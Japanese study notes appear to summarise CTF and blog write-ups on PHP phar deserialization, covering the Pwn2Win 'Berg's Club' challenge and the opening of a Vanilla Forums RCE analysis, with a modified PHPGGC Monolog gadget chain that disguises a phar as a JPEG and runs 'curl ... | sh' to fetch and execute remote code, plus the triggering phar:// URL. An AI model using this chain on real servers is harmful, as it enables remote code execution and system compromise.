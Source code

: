 ```txt
drwxr-xr-x   2 root root  4096 Sep 12 15:55 srv
```
## phar / file_exists (Berg's Club)
https://balsn.tw/ctf_writeup/20181130-pwn2winctf/#berg%E2%80%99s-club  
- **entrypoint**  
JPEG画像をアップロードできるWebサイトがある。また、画像をシェアできる機能がある。  
```txt
http://200.136.252.42/share/uploads%2Fb7a41ed641bf590cec346e0bdede04a8.jpg
```
`/share/`以降でローカルファイルを指定しており、`http://200.136.252.42/share/%2fetc%2fpasswd`でエラーがでないので`file_exists`で読み込んでいると推測。`/etc`でも同様の結果となるため`file_exists`が使われていると推測するらしい。  
JPEG画像じゃないとアップロードできないらしいので、PHARファイルをJPEGに偽装してアップロードして`/share/`から読み込む。  
PHPGCCの`gadgetchains/Monolog/RCE/1/chain.php`をJPEG用に`setStub`でJPEG用のヘッダーをセットして偽装するように修正する。  
```php
<?php

namespace GadgetChain\Monolog;

class RCE1 extends \PHPGGC\GadgetChain\RCE
{
    public $version = '1.18 <= 1.23';
    public $vector = '__destruct';
    public $author = 'cf';

    public function generate(array $parameters)
    {   
        $a = new \Monolog\Handler\SyslogUdpHandler(
            new \Monolog\Handler\BufferHandler(
                ['current', 'system'],
                ['curl "240.240.240.240:1234" | sh', 'level' => null]
            )
        );
        unlink('pwn.phar');
        $p = new \Phar('pwn.phar', 0); 
        $p['file.txt'] = 'test';
        $p->setMetadata($a);
        $p->setStub("\xff\xd8\xff\xe0\x0a<?php __HALT_COMPILER(); ?>");
        return $a; 
    }   
}
```
これで`http://200.136.252.42/share/phar%3a%2f%2fIMAGE_PATH`でRCEできる！  
- **payload**  
```txt
http://200.136.252.42/share/phar%3a%2f%2fIMAGE_PATH
```
## "phar://" / getimagesize (Vanilla Forums domGetImagesgetimagesize)
https://srcincite.io/blog/2018/10/02/old-school-pwning-with-new-school-tricks-vanilla-forums-remote-code-execution.html  
- **entrypoint**  
`library/core/functions.general.php`の`DashboardController`にユーザー定義の関数`fetchPageInfo`があり、名前から察するに指定した`$url`にリクエストを出してくれるっぽい。  
これだけでもすでにSSRFの脆弱性だが…  
`library/core/functions.general.php`  
`$pageHtml = $request->request([`でリクエストを送信できる！これだけでも多分良くない。  
`$images = domGetImages($dom, $url); `でリクエストから返ってきたデータ(html)を解析して`<img`要素の画像関連の情報を取得するっぽい。  
```php
class ImportController extends DashboardController {

    ...

```